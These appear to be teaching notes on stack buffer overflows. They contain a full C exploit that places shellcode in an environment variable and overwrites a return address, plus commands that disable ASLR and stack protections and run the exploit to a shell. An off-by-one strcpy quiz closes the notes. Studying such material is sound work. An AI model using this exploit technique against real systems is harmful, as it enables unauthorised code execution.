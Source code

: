 At the bottom of the stack we can see the stored command; they are all null terminated:
- `2e 2f 64 75 6d 70 00`: `./dump.`
- `61 72 67 31 00`: `arg1.`
- `61 72 67 32 00`: `arg2.`
- `65 6e 76 31 3d 78 00`: `env1=x.`
- `65 6e 76 32 3d 79 00`: `env2=y.`
- `2e 2f 64 75 6d 70 00`: `./dump.`

To pass the shellcode as an environment variable, we compute the address as follows:
- start with `0x7ffffffff000` (bottom of stack)
- subtract 8 (null bytes always at the beginning/bottom)
- subtract (`strlen(progname)` + 1)
- subtract (`strlen(shellcode)` + 1)

## exploit.c
```c
#include <string.h>  
#include <unistd.h>  
#define PROGNAME "./vulnerable"
extern char shellcode[];               // Fill argument with 'x' characters
int main(void) {
	char arg[33];
	char *argv[] = { PROGNAME, arg, NULL };           // location where return address will be
	char *envp[] = { shellcode, NULL };
	long addr = 0x7ffffffff000 - 8 - (strlen(PROGNAME) + 1) - (strlen(shellcode) + 1);
	memset(arg, 'x', sizeof(arg));
	*(long *) (arg+24) = addr;                        // Write address (as binary number) to location where return address will be
	arg[sizeof(arg) - 1] = 0;
	execve(PROGNAME, argv, envp);
	return 1;
}
```
Now we can run the exploit:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
cc -fno-stack-protector -x execstack -o vulnerable vulnerable.c
cc -o exploit exploit.c shellcode.s
./exploit
hello xxxxxxxxxxxxxxxxxxxxxxxx▒▒▒▒▒
$ shell executed from ./vulnerable
```
---
## Shell Injection Parameters

> [!question] Is this program properly secured?
> ```c
> int main(int argc, char **argv) {
> 	char url[112], path[48], host[48];
> 	if(strlen(argv[1])>sizeof(host)) return 1;
> 	if(strlen(argv[2])>sizeof(path)) return 1;
> 	strcpy(host, argv[1]);
> 	strcpy(path, argv[2]);
> 	sprintf(url, "http://%s/%s", host, path);
> 	printf("url=%s\n", url);
> 	return 0;
> }
> ```
> > [!info] Solution
> > We forgot to have 1 more byte for the NULL byte
> > If we type in a string of 48 bytes into `host`, the resulting NULL byte would be put by `strcpy` at the beginning of `path`, which would be overwritten by the copy of `path`.
